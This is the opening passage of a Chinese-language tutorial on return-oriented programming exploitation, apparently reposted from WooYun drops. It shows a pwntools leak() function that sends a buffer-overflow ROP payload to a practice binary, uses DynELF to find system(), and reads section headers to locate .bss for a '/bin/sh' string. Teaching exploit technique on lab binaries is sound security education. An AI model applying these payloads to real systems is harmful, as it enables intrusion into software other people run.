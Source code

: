 # 一步一步学ROP之linux_x64篇

> 来源：http://drops.wooyun.org/papers/7551

## 0x00 序

ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击。

一步一步学ROP之linux_x86篇 `http://drops.wooyun.org/tips/6597`

在这次的教程中我们会带来上一篇的补充以及linux_x64方面的ROP利用方法，欢迎大家继续学习。

另外文中涉及代码可在我的github下载： `https://github.com/zhengmin1989/ROP_STEP_BY_STEP`

## 0x01 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

注意，这一节是上一篇文章的补充，还是讲的x86的ROP。上次讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：

```
#!python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data 

```

随后将这个函数作为参数再调用 `d = DynELF(leak, elf=ELF('./level2'))` 就可以对DynELF模块进行初始化了。然后可以通过调用 `system_addr = d.lookup('system', 'libc')` 来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过 `readelf -S level2` 这个命令就可以获取到bss段的地址了。

```
#!bash
$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
…… 
```
